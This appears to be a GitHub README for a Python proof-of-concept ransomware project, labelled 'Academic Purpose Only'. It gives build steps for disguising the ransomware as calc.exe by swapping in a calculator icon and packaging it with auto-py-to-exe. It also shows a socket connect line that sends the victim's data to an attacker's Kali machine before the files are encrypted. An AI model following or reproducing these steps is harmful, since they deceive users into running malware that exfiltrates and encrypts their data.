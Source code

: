 # NextGen-Ransomeware-Poc-Python [RaaS]
A simple python script pretending calc.exe to trigger user execute a ransomeware and sent data before encrypt.
Deployed on Windows environment.

## Academic Purpose Only ##

# Flow #
- Execute socket_server.py on your Kali -
Modify raas.py lines 32 client_socket.connect(("<Kali IP>", 5000))
Run autopytoexe convertor the program as a exe
Replace Icon to calculator.ico
Output as a exectuable file
